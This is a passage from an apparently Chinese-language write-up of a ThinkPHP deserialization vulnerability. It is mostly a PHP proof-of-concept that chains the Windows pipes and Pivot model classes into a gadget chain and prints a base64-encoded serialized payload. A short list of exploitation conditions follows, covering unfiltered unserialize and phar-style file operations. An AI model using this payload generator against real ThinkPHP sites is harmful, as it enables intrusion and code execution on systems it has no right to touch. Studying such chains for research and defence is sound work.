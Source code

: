 ```
        $this-&gt;config = ['var_pjax' =&gt; ''];
        $this-&gt;hook = ['visible' =&gt; [$this,'isPjax']];
    }
}
namespace think\process\pipes;
use think\model\Pivot;

class Windows{
    private $files = [];
    public function __construct(){
        $this-&gt;files = [new Pivot()];
    }
}

namespace think\model;
use think\Model;

class Pivot extends Model{
}

use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?&gt;

```

### 漏洞利用条件

> 

- 未经过滤直接使用反序列化操作- 可以文件上传且文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤


